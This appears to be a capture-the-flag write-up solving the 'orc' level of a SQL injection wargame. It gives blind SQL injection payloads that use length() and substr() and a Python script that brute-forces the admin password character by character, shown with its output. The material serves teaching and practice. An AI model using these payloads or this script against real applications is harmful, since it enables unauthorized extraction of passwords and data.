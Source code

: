 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 4
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/3fb3ba7d-5c3a-40cc-8b3a-8dcd16ebe014)

We are provided with the SQL query:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='{$_GET[pw]}'
```

The code performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello admin`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


In order to print out the flag, we need to first know the password. For that we have to perform a Blind SQL Injection.

## Blind SQL Injection

First we have to reveal the length of the flag.

### Retrieving the password length

If we provide the following URI parameter:

```
?pw=' OR id='admin' AND length(pw)=[length] -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=[length] -- -'
```

When the length of `pw` for `id='admin'` is equal to the `[length]` that we provide, the query will result into `True`. This will cause the `Hello admin` message to be printed. We can brute force the length and use the message as an indicator of correct brute force value.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![4](https://github.com/Kunull/Write-ups/assets/110326359/e332b358-2371-4f97-a9be-e1e5afce6f68)

If we provide the following URI parameter:

```
?pw=' OR id='admin' AND substr(pw, [index], 1)='[character]' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, [index], 1)='[character]' -- -'
```

If for `id='admin'`, the character of the `pw` at `[index]` is the same as the `[character]` that we provide, the query will result into `True`. This will cause the `Hello admin` message to be printed. We can brute force the length and use the message as an indicator of correct brute force value.

### Script

We can automate the entire process using a script.

```py title="orc_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'jkvees84mr4jq3nallg9rum7he'}
url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"
password_length = 0

for x in range(0, 10):
  payload = f"' OR id='admin' AND length(pw)={x} -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' OR id='admin' AND substr(pw, {index}, 1)='{char}' -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "Hello admin" in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\orc_script.py

[!] Payload: ?pw=' OR id='admin' AND length(pw)=8 -- -
[!] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+length%28pw%29%3D8+--+-
[!] Password length: 8

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 1, 1)='0' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+1%2C+1%29%3D%270%27+--+-
[+] Character at index 1: 0

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 2, 1)='9' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+2%2C+1%29%3D%279%27+--+-
[+] Character at index 2: 9

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 3, 1)='5' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+3%2C+1%29%3D%275%27+--+-
[+] Character at index 3: 5

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 4, 1)='a' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+4%2C+1%29%3D%27a%27+--+-
[+] Character at index 4: a

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 5, 1)='9' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+5%2C+1%29%3D%279%27+--+-
[+] Character at index 5: 9

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 6, 1)='8' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+6%2C+1%29%3D%278%27+--+-
[+] Character at index 6: 8

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 7, 1)='5' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+7%2C+1%29%3D%275%27+--+-
[+] Character at index 7: 5

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 8, 1)='2' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+8%2C+1%29%3D%272%27+--+-
[+] Character at index 8: 2

[!] Extracted password: 095a9852
[!] Final payload: ?pw=095a9852
```

Now, we can provide password URI parameter:

```
?pw=095a9852
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='095a9852'
```

![8](https://github.com/Kunull/Write-ups/assets/110326359/ef9ae213-af29-4450-8d2e-34d02565e928)
